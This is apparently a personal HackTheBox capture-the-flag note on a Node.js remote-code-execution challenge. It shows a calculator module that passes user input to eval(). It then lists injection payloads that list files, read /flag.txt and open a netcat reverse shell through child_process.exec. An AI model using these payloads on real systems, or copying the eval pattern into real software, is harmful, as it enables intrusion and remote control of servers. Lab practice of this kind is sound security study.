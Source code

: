 ```yaml
---
date: "March 06, 2025"
description: example of Node RCE 
platform: HackTheBox
categories: Web
tags: #rce #code-injection #nodejs #javascript
---
```

#nodeJS #RCE 

Node RCE challenge
this is being called by the calculator
```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

exploit
> inject malicious RCE formula 
```js
require('fs').readdirSync('.').toString()
require('fs').readFileSync('/flag.txt').toString();

require('child_process').exec('nc -e sh 127.0.0.1 4444')
require("child_process").exec('nc 127.0.0.1 4444 -e /bin/sh')
```



